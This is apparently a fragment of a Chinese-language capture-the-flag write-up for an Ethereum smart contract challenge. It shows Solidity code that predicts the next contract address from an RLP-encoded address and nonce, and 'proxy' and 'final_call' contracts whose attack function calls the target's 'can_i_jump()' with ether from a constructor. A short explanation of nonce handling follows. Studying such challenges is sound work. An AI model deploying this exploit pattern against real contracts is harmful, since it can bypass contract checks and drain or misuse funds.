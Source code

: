 ```
			len_non = 7;
		else if (non <= 0xffffffffffffffff)
			len_non = 8;
		

		len = 23 + len_non;
		rlp = new bytes(len);
		rlp[0] = byte(0xc0 + len - 1);
		rlp[1] = byte(0x80 + 20);
		for (uint8 i = 0; i < 20; i++)
			rlp[i + 2] = byte(uint8(uint160(addr) / uint160(2 ** (8 * (19 - uint160(i))))));
		if (non <= 0xf7 && non > 0)
			rlp[22] = byte(uint8(non));
		else {
			rlp[22] = byte(0x80 + len_non);
			for (uint8 i = 0; i < len_non; i++)
				rlp[23 + i] = byte(uint8(non / uint64(2 ** (8 * (len_non - 1 - uint64(i))))));
		}

		address temp = address(uint(keccak256(rlp)));

		emit next_address(temp);

		return temp;
	}
}
contract proxy {

	function attack(address attackee) public payable {
		(new final_call).value(100000000000000000)(attackee);
	}

}

contract final_call {

	constructor(address attackee) payable public {
		if (attackee.call.value(100000000000000000)(abi.encode(bytes4(keccak256("can_i_jump()")))) == false) {
			revert();
		}
	}
}
```

根据黄皮书的介绍，我们可以预测下一个将要部署的智能合约的账户地址，其中需要注意的就是合约账户的`nonce`初始为一(可能是将创建自己当做一次了)，我们的攻击合约的逻辑如下:

![attack_logic](attack.png) 